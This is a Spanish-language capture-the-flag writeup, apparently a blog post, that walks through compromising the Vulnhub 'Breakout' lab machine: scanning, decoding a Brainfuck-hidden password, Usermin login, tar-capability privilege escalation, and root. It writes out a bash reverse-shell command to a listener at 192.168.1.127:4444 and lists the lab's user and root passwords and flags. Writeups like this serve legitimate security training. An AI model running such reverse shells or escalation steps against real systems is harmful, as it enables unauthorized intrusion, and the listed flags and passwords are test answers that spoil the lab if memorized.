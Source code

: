 ```yaml
---
title: "Breakout"
excerpt: "[Easy][Vulnhub] Writeup de Breakout."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```

[https://www.vulnhub.com/series/empire,507/](https://www.vulnhub.com/series/empire,507/)

```bash
sudo nmap -vvv -sS -sV -O 192.168.1.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/1.png){: .align-center}

Saldrá la máquina breakout

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/2.png){: .align-center}

Entrar al servidor web con la dirección `192.168.1.146`, saldrá la web por defecto de Apache

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/3.png){: .align-center}

Dar click derecho e inspeccionar elemento y saldrá un mensaje encriptado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/4.png){: .align-center}

Usar el identificador de cifrado de la web decode.fr, dirá que es cifrado Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/5.png){: .align-center}

Usar el descifrador Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/6.png){: .align-center}

Tratar de intentar entrar al servidor web con otro de los puertos abiertos, en este caso el 20000

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/7.png){: .align-center}

Dirá que es un servidor bajo SSL por lo que recomienda acceder con https en lugar de http, cambiamos y saldrá la advertencia de sitio inseguro

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/8.png){: .align-center}

Pulsar en avanzado y en aceptar el riesgo y continuar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/9.png){: .align-center}

Saldrá un login para Usermin

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/10.png){: .align-center}

Usar enum4linux para descubrir el usuario que se encuentra en el equipo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/11.png){: .align-center}

Saldrá el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/12.png){: .align-center}

Usar el usuario cyber y la contraseña descifrada anteriormente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/13.png){: .align-center}

Cargará el siguiente panel

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/14.png){: .align-center}

En la parte inferior se encontrarán unos botones, uno de ellos permitirá abrir una shell

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/15.png){: .align-center}

Entrará al directorio personal de cyber y con dicho usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/16.png){: .align-center}

Listar el contenido, mostrará un archivo llamado `user.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/17.png){: .align-center}

Mostrará el flag del usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/18.png){: .align-center}

Usar el comando `getcap` con el archivo tar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/19.png){: .align-center}

Ir a `/var/backups` y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/20.png){: .align-center}

Volver al home de cyber y usar el archivo tar para comprimir el archivo `.old_pass.bak`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/21.png){: .align-center}

Descomprimir el archivo creado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/22.png){: .align-center}

Se creará un directorio llamado var, dentro de él otro llamado backups y dentro de este estará el archivo `.old_pass.bak` que ahora se podrá leer

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/23.png){: .align-center}

Mostrará una contraseña para el usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/24.png){: .align-center}

Al tratar de usar el comando su no lo permitirá

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/25.png){: .align-center}

Hacer un reverse shell con el comando
```bash
bash –i  >& /dev/tcp/192.168.1.127/4444 0>&1
```

Y poner el puerto de escucha en 4444

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/26.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/27.png){: .align-center}

Se abrirá un shell inverso aunque aún con el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/28.png){: .align-center}

Hacer de nuevo un cat al archivo para poder copiar la contraseña

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/29.png){: .align-center}

Cambiar de usuario con su, cambiará al usuario root aunque sin mostrar texto, de todos modos se pueden escribir comandos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/30.png){: .align-center}

Ir al directorio de root y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/31.png){: .align-center}

Mostrará el flag del usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/32.png){: .align-center}

## Usuarios y contraseñas

Cyber= .2uqPEfj3D<P'a-3
Root= Ts&4&YurgtRX(=~h

## Flags

Usuario:  3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/33.png){: .align-center}

Root: 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/34.png){: .align-center}
